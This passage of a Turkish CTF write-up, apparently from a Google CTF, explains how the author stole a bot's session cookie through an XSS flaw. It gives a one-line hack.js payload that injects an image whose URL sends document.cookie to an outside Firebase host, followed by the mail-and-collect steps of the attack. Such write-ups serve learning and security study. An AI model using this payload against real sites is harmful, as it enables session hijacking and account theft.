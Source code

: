 
Client tarafında çalışan `hack.js` içeriği:
```JavaScript
document.writeln("<img src='https://xavactf.firebaseapp.com/session?session="+document.cookie+"' />")
```

Burada yapılan yöntem şu şekilde:
- Mail olarak `[LINK]/cats` yolluyorum
- Arkadaş maili açar açmaz kullanıcı adı ve şifresi önceden belirlenmiş bir şekilde ilgili siteye post ediliyor.
- Sitedeki XSS açığı `[LINK]/hack.js`'i çağırıyor.
- hack.js, sayfaya bir resim entegre ediyor. Resmin adresi `[LINK]/session?session=[COOKIE]` şeklinde.
- `[LINK]/session` adresi, veritabanına URL'inde bulduğu parametreleri kaydediyor.
- Ben de bu veritabanından parametreleri çekiyorum.

Kısacası, _session_ bilgilerini almak istediğim sunucu, benim **JS** betiğimi _client_ tarafında çalıştırdığında, kullanıcının tarayıcısından verileri hüpletiyorum.

![](/assets/google-ctf-macerasi-2/xss.svg)

Mailimi attım ve tuzağıma düşüşünü izledim >:)

![](/assets/google-ctf-macerasi-2/12.webp)
